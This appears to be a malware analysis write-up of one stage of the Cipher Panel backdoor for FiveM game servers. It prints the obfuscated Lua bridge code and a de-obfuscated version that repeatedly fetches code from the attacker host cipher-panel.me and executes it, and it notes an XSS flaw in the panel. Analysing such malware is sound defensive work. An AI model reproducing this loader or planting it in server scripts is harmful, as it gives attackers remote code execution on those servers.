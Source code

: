 # Phase 3

Let's begin with the Stage 3 bridge code. Stage 2 Refers to the Stage 3 page which in turn refers to the stage3b.php 

Stage3 Bridge Code:
```
local KCfouVmGAagEXRDcykxRRbujceCvVdiIkBujnmJdJrsZOHeKkGZQnDHElqwTAOinIRyjpL, DsKLUvmTaEovxYRHLWOrIjldKpUGpnBzurWiSVtxVgSqGgsfbNOtfhCHTabAufCaKuqvhI, wwJeYyOybasBJkLeAJpEyyxigATLqxGxaAREuJvJUUyxxQhzuvdPFdqewXeoOkrIaqpHXP, PrSLQPVOnDTzkIbjPMAXjzARQedTBpynhdSixeXwvZjswaUHtlYATzEkotTAcZSomQdjXj, CtIDluLIlBKKuAIXZinvYOfKWPMsfUWyisMLLQEMzmLDxbdYaoNrprrjJsLKgsNhCgyzJU = Citizen, CreateThread, true, PerformHttpRequest, assert local UcACCNxwbZHGZfNHXSzNtsgicMYEPDtorKgwhVlAKBRCXiadoBTFYVaCIvADLivQOwuIVi, idfGtNjnYhRTSQXcRFkGRzAlmKwWaGGKXmlalaVLyytdfrWxpZZCcInAmXtJCShViyoHQQ, GvntgCfWrVNnsbhaYCarIuLjewfOAVQDcWeCNkjJxWVzlJwqwVOoLKkMORkjwAgcUHwaFV, cDXGzopUzgPIrGAIeToTcXMukYoEvXFLihjMnaTfVdOBLekRUBFkWtFliaUnogtQsUJMhg, oqLcfMywNayDZonFNVkADDXcJpokKnfxbOBzBzAOuoMTqAGfDWhjjhQgkPLyiactaSOTwf, TgTFgoQcvrZXFlAJCXJiPsMpIrpzmuxwPDxpSIIEeuzzQwtHscXMzffrDZqQJLaBsJAnkd, vbHBgtwpcrxlprAEmjMjwjxUjlmAkhsPFMKRwyTPpwsvAgJwZPbizJvVjyldIUjRYPwJLa = load, Wait, 4000, 200, "", nil, false KCfouVmGAagEXRDcykxRRbujceCvVdiIkBujnmJdJrsZOHeKkGZQnDHElqwTAOinIRyjpL.CreateThread(function() while wwJeYyOybasBJkLeAJpEyyxigATLqxGxaAREuJvJUUyxxQhzuvdPFdqewXeoOkrIaqpHXP do PrSLQPVOnDTzkIbjPMAXjzARQedTBpynhdSixeXwvZjswaUHtlYATzEkotTAcZSomQdjXj('https://cipher-panel.me/_i/v2_/stage3b.php?asf=dyszN1JQeDRubHZhVFdEY21vcUtORzZPS0hReXlFeEd5S1loZWdoUXUrcXhwbWJhNm1mMjdIRWFJZ0dFVFdNTg==', function (QuVZHEddvjBavRLgttCLTNdEisYRRRoWRhepcxSWyuxPQWWnFibTolnnrkeeHgDjCGbnln, KLyJiPGKWqyWTlmzwYJhtSutOlQQTlogJlpCEDluogHdKysQcCVjzJQLWAPONAzjzlhajp) if(QuVZHEddvjBavRLgttCLTNdEisYRRRoWRhepcxSWyuxPQWWnFibTolnnrkeeHgDjCGbnln == cDXGzopUzgPIrGAIeToTcXMukYoEvXFLihjMnaTfVdOBLekRUBFkWtFliaUnogtQsUJMhg) then if (KLyJiPGKWqyWTlmzwYJhtSutOlQQTlogJlpCEDluogHdKysQcCVjzJQLWAPONAzjzlhajp == TgTFgoQcvrZXFlAJCXJiPsMpIrpzmuxwPDxpSIIEeuzzQwtHscXMzffrDZqQJLaBsJAnkd or KLyJiPGKWqyWTlmzwYJhtSutOlQQTlogJlpCEDluogHdKysQcCVjzJQLWAPONAzjzlhajp == oqLcfMywNayDZonFNVkADDXcJpokKnfxbOBzBzAOuoMTqAGfDWhjjhQgkPLyiactaSOTwf) then return end local fJYvKXLWGTQUqTACrmyrbJXwXfnaAGuoDzbUkjgsthZlToIVURYgkxnlUPFhfBGBdaogTP = CtIDluLIlBKKuAIXZinvYOfKWPMsfUWyisMLLQEMzmLDxbdYaoNrprrjJsLKgsNhCgyzJU(UcACCNxwbZHGZfNHXSzNtsgicMYEPDtorKgwhVlAKBRCXiadoBTFYVaCIvADLivQOwuIVi(KLyJiPGKWqyWTlmzwYJhtSutOlQQTlogJlpCEDluogHdKysQcCVjzJQLWAPONAzjzlhajp)) fJYvKXLWGTQUqTACrmyrbJXwXfnaAGuoDzbUkjgsthZlToIVURYgkxnlUPFhfBGBdaogTP() wwJeYyOybasBJkLeAJpEyyxigATLqxGxaAREuJvJUUyxxQhzuvdPFdqewXeoOkrIaqpHXP = vbHBgtwpcrxlprAEmjMjwjxUjlmAkhsPFMKRwyTPpwsvAgJwZPbizJvVjyldIUjRYPwJLa end end) KCfouVmGAagEXRDcykxRRbujceCvVdiIkBujnmJdJrsZOHeKkGZQnDHElqwTAOinIRyjpL.Wait(GvntgCfWrVNnsbhaYCarIuLjewfOAVQDcWeCNkjJxWVzlJwqwVOoLKkMORkjwAgcUHwaFV) end end)
```

Using some logical thinking we can see that the it's using function arrays to make it harder to read. 
They did effectively obfuscate the entire first stage but with this stage they left some stuff out like the CreateThread, The url is plain text this round, and the Citizen is obfuscated but the Wait isn't. Better yet they added the obfuscated string for CreateThread but never used it. De-obfuscating this part gets us:
```
Citizen.CreateThread(function() 
	while true do 
		PerformHttpRequest('https://cipher-panel.me/_i/v2_/stage3b.php?asf=dyszN1JQeDRubHZhVFdEY21vcUtORzZPS0hReXlFeEd5S1loZWdoUXUrcXhwbWJhNm1mMjdIRWFJZ0dFVFdNTg==', function (errorCode, resultData) 
		if(errorCode == 200) then 
			if (resultData == nil or resultData == "") then 
				return 
			end 
			local payLoadFunc = assert(load(resultData)) 
			payLoadFunc() 
			resultData = false 
			end 
		end) 
		Citizen.Wait(4000) 
	end 
end)
```

I'm sure there are some spaces wrong but the goal is't to make it working it's to find out it's functions and behavior.
Looking at this we can see it refers to the stage3b.php page with a token. That token is random generated from the stage2 page.
Weird thing is that we can view the page content without having to do a curl with the FXServer user agent. 
Interesting note though is if you fill in a random number at https://cipher-panel.me/_i/v2_/stage3.php?to=1, you will be receiving a different output on the stage3b.php. This part is vulnerable for XSS.

From the stage3b.php isn't much to get on about. Code blocks are all obfuscated and it's functions is unknown. 
Only thing visible from the code is that it receives the code from stage4 and executes them in order.
Other than that, there are a lot of decimal blocks, also 0 fivem functions that are visible, seems like this is mainly the executor for the payloads send from the panel to the stage4
